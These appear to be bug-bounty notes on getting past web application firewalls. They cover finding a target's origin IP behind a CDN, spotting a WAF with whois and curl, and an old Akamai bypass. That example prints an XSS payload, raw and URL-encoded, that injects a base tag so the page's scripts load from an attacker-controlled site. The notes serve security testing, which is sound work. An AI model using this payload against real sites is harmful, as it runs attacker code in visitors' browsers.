


Bypass Web Application Firewall (WAF)
Web Application Firewall (WAF)
The most common problem we run into with Payloads is filters and WAFs (Web Application Firewall). WAFs are usually the trickiest to bypass because they are usually running some type of regex and if it's up to date, it'll be looking for everything.
• List of WAF Bypass that are been succeed in the past:
https://github.com/0xInfection/Awesome-WAF• List of payloads:
https://github.com/swisskyrepo/PayloadsAllTheThingsFind real IP of the targetSometime WAF hide the real ip of the target behind the WAF and an attacker cannot directly attack it.
1) Find real IP of the target using some OSINT, dig DNS history,...
2) update
/etc/hostsfor more see here:
◇
https://medium.com/@_sathishshan/bypassing-web-application-firewall-waf-43b2bb3da1fc ◇
https://docs.sucuri.net/website-firewall/troubleshooting/bypassing-the-waf-for-testing/ ◇
https://blog.detectify.com/2019/07/31/bypassing-cloudflare-waf-with-the-origin-server-ip-address/ ◇
https://infosecwriteups.com/finding-the-origin-ip-behind-cdns-37cd18d5275example: Akamai WAFAkamai WAF in an old version
was only doing checks on the parameter values, and not the actual parameters names. The target in question was reflecting the parameter names and values as JSON.
<script>{“paramname”:”value”}</script>We could have used the payload below to change any links after the payload to mysite which enable us to run our own javascript (since it changed <script src=> links to my website).
◇ PAYLOAD →
?"></script><base c==href=https:\mysite> ◇ PAYLOAD URL ENCODED →
?"></script><base%20c%3D=href%3Dhttps:\mysite> <script>{“?"></script><base%20c%3D=href%3Dhttps:\mysite>”:”<img src="attackerScript.js">”}</script> How know if the target domain is using a WAF provider?1. Find the A record
2. Know who own the IP address we found
◇ whois
whois [IpAddress_Arecord]
◇ Use curl to fetch the headers only on the domain
Bibliography:https://github.com/vincentcox/bypass-firewalls-by-DNS-historyZseano Methodology:
https://www.bugbountyhunter.com/methodology/Base tag:
https://www.w3schools.com/tags/tag_base.asp#:~:text=The%20tag%20specifies%20the,inside%20the%20element.https://www.bugbountytips.tech/2020/05/26/xss-payload-akamai-waf-bypass-by-zseano-scriptbase%20c%3Dhref%3Dhttps/